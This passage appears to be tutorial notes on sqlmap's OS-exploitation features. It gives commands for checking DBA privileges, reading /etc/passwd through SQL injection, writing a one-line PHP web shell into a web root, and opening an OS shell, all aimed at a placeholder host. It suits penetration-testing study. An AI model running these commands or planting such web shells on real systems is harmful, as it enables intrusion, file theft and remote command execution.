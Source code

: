 ```$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'```



To get a whole list of implemented tamper scripts, along with the description as above, switch --list-tampers can be used.





# OS Exploitation


        
        SQLMap has the ability to utilize an SQL Injection to read and write files from the local system outside the DBMS. 





## Checking for DBA Privileges

`$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`


## Reading Local Files

`$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`

`$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd`

## Writing Local Files

 To do that with SQLMap, we can use the `--file-write` and `--file-dest` options. First, let's prepare a basic PHP web shell and write it into a shell.php file:


`$ echo '<?php system($_GET["cmd"]); ?>' > shell.php`


```$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"```




## OS Command Execution


SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like xp_cmdshell in Microsoft SQL Server.


`$ sqlmap -u "http://www.example.com/?id=1" --os-shell`

        